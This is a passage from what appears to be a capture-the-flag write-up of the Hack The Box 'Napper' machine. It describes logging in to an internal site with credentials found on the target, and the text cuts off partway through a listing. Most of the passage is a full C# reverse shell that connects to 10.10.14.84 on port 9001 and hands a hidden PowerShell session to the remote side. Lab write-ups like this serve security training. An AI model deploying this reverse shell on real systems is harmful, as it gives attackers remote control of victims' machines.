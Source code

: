 
Since we can’t find any other credentials on any of the posts, we will try to login to `internal.napper.htb` using the example credentials that we found.
![Pasted image 20240714174846.png](/images/Pasted image 20240714174846.png){: .normal }

In the blog we find info about a builtin backdoor. In order to gain a shell connection we will start by compiling a C# reverse shell:
```csharp
# C# Reverse shell
  using System;
  using System.Text;
  using System.IO;
  using System.Diagnostics;
  using System.ComponentModel;
  using System.Net;
  using System.Net.Sockets;

  namespace Program
  {
      public class Run
      {
          private StreamWriter streamWriter;

          public Run()
          {
              RunMain();
          }

          public void RunMain()
          {
              using (TcpClient client = new TcpClient("10.10.14.84", 9001))
              {
                  using (Stream stream = client.GetStream())
                  {
                      using (StreamReader rdr = new StreamReader(stream))
                      {
                          streamWriter = new StreamWriter(stream);

                          StringBuilder strInput = new StringBuilder();

                          Process p = new Process();
                          p.StartInfo.FileName = "powershell.exe";
                          p.StartInfo.CreateNoWindow = true;
                          p.StartInfo.UseShellExecute = false;
                          p.StartInfo.RedirectStandardOutput = true;
                          p.StartInfo.RedirectStandardInput = true;
                          p.StartInfo.RedirectStandardError = true;
                          p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
                          p.Start();
                          p.BeginOutputReadLine();

                          while (true)
                          {
                              strInput.Append(rdr.ReadLine());
                              p.StandardInput.WriteLine(strInput);
                              strInput.Remove(0, strInput.Length);
                          }
                      }
                  }
              }
          }

          private void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
```